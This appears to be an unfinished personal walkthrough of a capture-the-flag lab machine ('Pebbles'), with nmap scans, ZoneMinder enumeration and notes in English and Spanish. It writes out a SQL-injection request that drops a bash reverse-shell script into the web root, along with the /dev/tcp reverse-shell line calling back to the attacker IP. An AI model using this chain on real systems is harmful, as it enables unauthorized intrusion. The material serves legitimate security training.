 #InProgress 
# IP
```
192.168.198.52
```

## Nmap

```
PORT     STATE SERVICE REASON         VERSION
21/tcp   open  ftp     syn-ack ttl 61 vsftpd 3.0.3
22/tcp   open  ssh     syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 aa:cf:5a:93:47:18:0e:7f:3d:6d:a5:af:f8:6a:a5:1e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDTlsFY1sjAxyC1lqlzeHAaSC0ec76cB5Hoq6aVwMNphXzrhslKqJJ5L0sjOjQem02G6wukOQ/qIVzUZOPxdn4tlN+YuCRqrE7nSIj36hh6JeG4cI9t3qOJUPndLKuKSyJKwV1Dl7gQKcjS0gxO6kWybHMf4CT9a8QsF8mLDPNU3p5VfsEdrgJ+q5hNOmLYJPqwIHTdCweuSwaORn9wQGlmKphGZJlktEKEPwecDZO5KUc6g3N23G+vWv2uCmAw9ov8AQrePxdjz5/QQ8PdY6zedwcLUFjmL5jx9UhZLhDDf/pzP0wiswgm7DZXG6WHwMCbxNo0zX4/HFDswDHc/W+J
|   256 c7:63:6c:8a:b5:a7:6f:05:bf:d0:e3:90:b5:b8:96:58 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOrgGvGclvZKKtoTk+H0ojQxTTSKljSVFLY8udD6Cb8OQLjgd5F48Em8sa7JjoCa4Mn3USw7EttQLL9a1RNEgio=
|   256 93:b2:6a:11:63:86:1b:5e:f5:89:58:52:89:7f:f3:42 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBSm8eCxMlgt56SQ1z3TjY8R0ZY2MMMlYTB4Bby39xXE
80/tcp   open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Pebbles
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 7EC7ACEA6BB719ECE5FCE0009B57206B
8080/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Tomcat
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

3305/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
```

## Nmap UDP


# Enumeration
## FTP
admin:admin creds not working
## HTTP 80
Apache/2.4.18 (Ubuntu) Server at 192.168.198.52 Port 80
http://192.168.198.52/zm/
 ZoneMinder, v1.29.0
 MooTools 1.4.5
### Directories and files
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240928100334.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240928100348.png?raw=true)
ZoneMinder following exploits not working
https://github.com/heapbytes/CVE-2023-26035
```
python zm-exploit2.py --target http://192.168.198.52:80/zm/index.php --cmd 'ping 192.168.45.250 -c 5'
```
https://github.com/rvizx/CVE-2023-26035
```
python3 zm-exploitmod.py -t http://192.168.198.52:80/zm/ -ip 192.168.45.250 -p 443
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240928115050.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240928114945.png?raw=true)

## HTTP 8080

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240928105538.png?raw=true)

## HTTP 3305
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240928114037.png?raw=true)


![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240928120121.png?raw=true)
Tenemos al usuario sally
Enviamos payload
```
sh -i >& /dev/tcp/192.168.45.250/80 0>&1
```

```
view=request&request=log&task=query&limit=100;select+'sh+-i+>%26+/dev/tcp/192.168.45.250/80+0>%261'+into+outfile+'/var/www/html/revshell3.sh'%3b
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240928121702.png?raw=true)
```
http://192.168.198.52:3305/cmd.php?cmd=/bin/bash%20revshell3.sh
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240928121715.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240928121728.png?raw=true)

Tenemos revshell!
# PrivEsc

## Manual

Upgrade shell with python
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

No consigo que funcione:
```
https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/40053.zip
```

mysql exploit visto en un writeup

```
https://sudsy-fireplace-912.notion.site/Pebbles-from-Proving-Grounds-without-SQLMap-by-Luis-Moret-lainkusanagi-23b29df77e6946a6bb8cb213a76a9ac8
```



## Automated

### Peass

Linux version 4.4.0-21-generic
### Mimikatz

